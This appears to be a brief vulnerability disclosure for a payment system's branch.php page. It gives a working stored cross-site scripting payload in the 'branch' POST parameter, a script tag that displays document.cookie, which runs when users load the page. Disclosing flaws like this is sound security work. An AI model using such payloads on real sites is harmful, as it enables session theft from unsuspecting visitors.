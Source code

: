 BUG_Author: zhangyf

Vulnerability File: /paysystem/branch.php

POST parameter "branch" exists stored cross-site scripting vulnerability

Payload: branch=<script>alert(document.cookie)</script>&address=1&detail=2&id=&action=add&save=

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/1.png)

Payload will trigger when a user visits on http://localhost/paysystem/branch.php

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/2.png)




